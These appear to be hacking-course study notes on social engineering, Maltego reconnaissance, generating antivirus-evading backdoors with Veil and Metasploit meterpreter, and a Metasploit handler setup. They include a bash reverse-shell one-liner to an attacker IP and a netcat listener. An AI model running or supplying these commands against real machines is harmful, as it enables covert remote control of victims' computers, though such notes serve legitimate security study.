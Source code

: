 # Social Engineering

Social Engineering is the art of manupulating people.

* Hacking target through people.
* target can be: person, company, website etc.
* __Big companiese spend a lot of time and money securing their systems__
* But these systems are managed and used by humans
* Not much is spent on educating employees.

## Information Gathering

* Gather information about target(company/website/person).
* Discover associated webstites,links, companies.
* Associated people, names, emails, phone numbers, social networks, friends.
* Associated social networking accounts.
* display all info on a graph and build attack strategies.

* **maltego** : Best tool for information gathering.

https://www.maltego.com/downloads/

## Backdoor

A backdoor is a file that gives full control over the machine that it gets executed on.
Backdoors can be caught. **Veil** is a framework for generating **Undetectable** backdoors.

https://github.com/Veil-Framework/Veil.git

### Veil - backdoor framework for windows

#### Commands

* **exit** : Completely exit Veil
* **info** : Information on a specific tool
* **list** : List available tools
* **options** : Show Veil configuration
* **update** : Update Veil
* **use** : Use a specific tool

#### Tools

* **Evasion** : Generates undetectable backdoors.  
* **Ordnance** : Generates payloads that used by **Evasion**. A payload is the part of the code of the backdoor that does the evil stuff. It gives us reverse connection, download and execute something on the target computer.

### Veil-Evasion

#### Commands

* **back** : Go to Veil's main menu
* **checkvt** : Check VirusTotal.com against generated hashes
* **clean** : Remove generated artifacts
* **exit** : Completely exit Veil
* **info** : Information on a specific payload
* **list** : List available payloads
* **use** : Use a specific payload

#### Payloads

* **meterpreter** : this payload is designed by **metasploit**. **metasploit** is a huge framework for hacking. The cool thing about **meterpreter** is it runs into memory and it allows us to migrate between system processes so we can have the payload or the backdoor running from a normal process like Explorer for example & this payload will allow us to gain full control over the target computer.

#### Payload: 15) go/meterpreter/rev_https

* **LHOST** : IP of the Metasploit handler. This is the main option. This is the IP address which you're going to be receiving the connections on.
* **LPORT** : Port of the Metasploit handler. 8080 or 80 is less suspicious port.
* **PROCESSORS** : Optional: Minimum number of processors. This is used to look malware different so that it can bypass anti-virus.
* **SLEEP** : Optional: Sleep "Y" seconds, check if accelerated. The malware will sleep for given amount of time before injecting the payload.

Backdoor doesn't open a port in the target machine, rather it actually connects from the target computer to the hacker's computer & by doing that it will bypass firewalls. So we need to open port 8080 or 80 in our machine. **metasploit** framework will be used to listen to this port.

### Metasploit - A huge framework for hacking

This will be used for our backdoor because meterpreter & evasion is also based on metasploit.

```bash
    msfconsole      # running metasploit in terminal
```

#### Modules

**exploit/multi/handler** : This module will allow us to listen to a port.

```bash
    use exploit/multi/handler
```

Then we need to set type of our payload.

```bash
    set PAYLOAD windows/meterpreter/reverse_https   # for windows
```

### Linux machine

Creating a backdoor for linux machine is very simple as it runs on UNIX system thus has bash terminal.

```bash
    # backdoor
    bash -i >& /dev/tcp/192.168.0.106/8080 0>&1

    # ip is for hackers machine
    # this script will run on target/victim machine.
```

Hacker's machine should be listening to the port 8080. To do that runs the following command using ***netcat**.

```bash
    nc -vv -l -p 8080
```

* nc = meaning **netcat**
* -vv = it means verbose standard output.
* -p = port
* -l = listen

# Quotes

> hacking is more about following the law than breaking it.
>
> The essence of hacking is finding unintended or overlooked uses for the
> laws and properties of a given situation and then applying them in new and
> inventive ways to solve a problem.
